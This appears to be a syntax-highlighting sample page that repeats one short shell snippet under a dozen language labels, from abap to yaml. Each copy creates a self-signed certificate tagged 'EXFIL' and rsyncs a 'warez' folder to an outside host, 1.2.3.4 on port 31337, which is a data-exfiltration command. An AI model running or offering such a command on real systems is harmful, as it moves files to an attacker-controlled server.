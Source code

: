 ```abap
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
textile
```textile
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
toml
```toml
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
twig
```twig
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
typescript
```typescript
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
vala
```vala
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
velocity
```velocity
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
verilog
```verilog
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
vhdl
```vhdl
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
xml
```xml
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
xquery
```xquery
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
yaml
```yaml
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
